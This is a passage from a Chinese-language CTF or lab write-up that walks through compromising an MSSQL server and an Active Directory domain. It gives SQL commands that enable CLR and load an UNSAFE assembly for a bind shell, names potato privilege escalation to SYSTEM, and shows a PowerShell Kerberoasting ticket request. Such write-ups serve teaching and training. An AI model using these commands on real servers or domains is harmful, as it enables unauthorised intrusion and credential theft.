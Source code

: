 使用csc.exe编译为dll，注意.net的版本

![clr1.png](https://i.loli.net/2020/12/05/QxO2d1oe6YzavPA.png)

使用xxd或编写脚本将DLL转为Hex，在MSSQL上执行如下命令：

``` htmlbars
alter database master set trustworthy on;

exec sp_configure 'show advanced options', 1;
RECONFIGURE WITH override

exec sp_configure 'clr enabled', 1;
RECONFIGURE WITH override
GO

CREATE ASSEMBLY [MSSQLloader]
AUTHORIZATION [dbo]
FROM [DLL_HEX]
WITH PERMISSION_SET = UNSAFE;


CREATE PROCEDURE [dbo].[MSSQLloader]
AS EXTERNAL NAME [MSSQLloader].[StoredProcedures].[Exec]

EXEC MSSQLloader
```

bind shell成功连接：

![bindshell.png](https://i.loli.net/2020/12/05/mw3sfGxeOjKCBYV.png)


**PS：**其实MSF有MSSQL CLR的攻击模块，题目环境没有杀软，可以直接打


shell后用户为`NT SERVICE\MSSQLSERVER`，拥有`SeImpersonatePrivilege`，常规思路使用potato提权到system拿flag：

![flag3.png](https://i.loli.net/2020/12/05/2nc3CLJUvAN8BEp.png)

## 0x04 APP.iSoon2020A.lab

之前已经拿到了域成员机的SYSTEM权限，所以此时已经在域内了(`NT SERVICE\MSSQLSERVER`这个账号的出网权限也是机器账户，所以其实提权之前就在域内了)

查询SPN，发现一个使用用户账户注册的SPN：

![spn1.png](https://i.loli.net/2020/12/06/FTqMH6LQAsgvJ4V.png)

那么就可以进行Kerberoasting了

请求ST：

``` powershell
Add-Type -AssemblyNAme System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/APP.iSoon2020A.lab"
```

